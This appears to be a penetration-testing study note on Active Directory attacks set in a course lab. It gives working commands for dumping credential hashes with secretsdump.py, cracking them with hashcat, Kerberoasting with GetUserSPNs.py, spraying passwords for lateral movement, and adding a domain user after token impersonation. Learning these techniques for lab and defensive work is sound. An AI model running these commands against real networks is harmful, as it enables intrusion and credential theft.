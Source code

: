 - Database: It stores all the attempts and results
```bash
cmedb
```
# Dumping and Cracking Hashes
## Dumping hashes with `secretsdump.py`
Using `secretsdump.py`. Can use a password or hash:
```bash
secretsdump.py domain/username:password@ip-address
secretsdump.py username:@ip-address -hashes hash-here
```
Look for SAM hashes, cleartext passwords, etc. The accounts of interest are local administrators and users.
If the passwords are stored in the registry we could see passwords in cleartext.
If the older protocol `wdigest` (older systems: Windows 7, 8, Windows server 8 and 12) is being used, we could see cleartext passwords.
> [!tip] Bash script
> Make a bash onliner to run all the hashes in the `cmedb` database against every IP address we have using `secretsdump.py`.

Workflow and example lateral movement playbook to find a credential for vertical movement.
> [!example] Lateral Movement Playbook
> Find one hash -> crack it -> spray the password -> find new logins -> use `secretsdump.py` on these new login -> get more hashes -> respray the network with new accounts.

## Cracking hashes using `hashcat`
Get the NT portion of the hash to crack it with hashcat.
Save the NT portion to a file.
```bash
hash -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt
```
# Kerberoasting
Uses service accounts. We can try this technique any time we compromise a domain user account.
Initiate the workflow by requesting a TGT, so the server can then provide us an encrypted TGS with the services's hash.
- GetUsersSPNs.py
```bash
sudo GetUserSPNs.py domain/username:password -dc-ip ip-here -request
```
Example:
```bash
sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.0.0.3 -request
```
Crack the hash with hashcat.
```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```
# Token Impersonation
## Overview
What are token? Cookies for computers. Temporaries keys.
Types: delegate and impersonate.
- Delegate token: Created when login to a machine or using Remote Desktop.
- Impersonate: "non-interactive" such as attaching a network drive or a domain logon script.
### Examples of weaponization
1. If we can impersonate a domain admin we could add a new user to the machine. We can add that new user to the domain admin group.
```batch
net user /add hawkeye Password1@ /domain
```